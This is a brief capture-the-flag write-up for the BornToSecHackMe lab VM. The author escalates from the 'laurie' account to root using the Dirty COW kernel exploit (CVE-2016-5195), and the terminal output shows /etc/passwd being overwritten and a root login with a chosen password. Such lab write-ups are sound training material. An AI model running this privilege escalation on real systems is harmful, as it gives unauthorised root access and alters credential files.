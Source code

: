 
The same steps as mandatory are taken to reach laurie shell over ssh.

Logging in to laurie with ssh, while inspecting the kernel version we find it is vulnerable to dirtycow CVE-2016-5195.
We found a public exploit source, compiled and run it, taking the new root password in the command line argument after finishing we can log in as root with the new password.

```
laurie@BornToSecHackMe:~$ ./dirty 123
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 123
Complete line:
root:fiRbwOlRgkx7g:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'root' and the password '123'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'root' and the password '123'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
laurie@BornToSecHackMe:~$ su root
Password: 
root@BornToSecHackMe:/home/laurie# ls /root
README
```